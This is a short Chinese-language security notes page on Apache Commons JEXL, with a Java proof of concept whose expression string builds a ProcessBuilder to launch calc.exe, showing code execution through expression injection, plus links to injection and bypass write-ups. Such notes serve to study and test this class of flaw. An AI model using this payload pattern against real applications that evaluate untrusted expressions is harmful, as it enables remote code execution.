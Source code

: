 ```yaml
---
comments: true
---
```

# 6 Java 表达式执行

## 6.1 JEXL

Apache Commons JEXL（Java Expression Language）是一个开源的表达式语言引擎，允许在Java应用程序中执行动态和灵活的表达式。JEXL旨在提供一种简单、易用的方式，通过字符串形式的表达式进行计算和操作。

语法参考：

- [官方手册](https://commons.apache.org/proper/commons-jexl/reference/syntax.html){:target="_blank"}
- [Apache Commons JEXL 语法](hthttps://ridikuius.github.io/Apache-Commons-JEXL3-%E8%AF%AD%E6%B3%95){:target="_blank"}

```java title="PoC"
package cc.trd;

import org.apache.commons.jexl3.*;

public class jexlrun {
    public static void main(String[] args) {
        JexlEngine engine = new JexlBuilder().create();
        String cmd="new('java.lang.ProcessBuilder', ['cmd.exe', '/c', 'calc']).start()";
        JexlExpression expr = engine.createExpression(cmd);
        JexlContext jc = new MapContext();
        Object result = expr.evaluate(jc);
        System.out.println(result);
    }
}
```


## 参考资料

- [Jexl 表达式注入分析与bypass](https://xz.aliyun.com/t/14683){:target="_blank"}
- [https://s1mple-top.github.io/2022/03/20/SpEL%E6%B3%A8%E5%85%A5RCE%E5%88%86%E6%9E%90%E4%B8%8E%E7%BB%95%E8%BF%87%E4%BB%A5%E5%8F%8Ajava%E5%8D%95%E5%90%91%E6%89%A7%E8%A1%8C%E9%93%BE%E7%9A%84%E6%80%9D%E8%80%83/](https://s1mple-top.github.io/2022/03/20/SpEL%E6%B3%A8%E5%85%A5RCE%E5%88%86%E6%9E%90%E4%B8%8E%E7%BB%95%E8%BF%87%E4%BB%A5%E5%8F%8Ajava%E5%8D%95%E5%90%91%E6%89%A7%E8%A1%8C%E9%93%BE%E7%9A%84%E6%80%9D%E8%80%83/){:target="_blank"}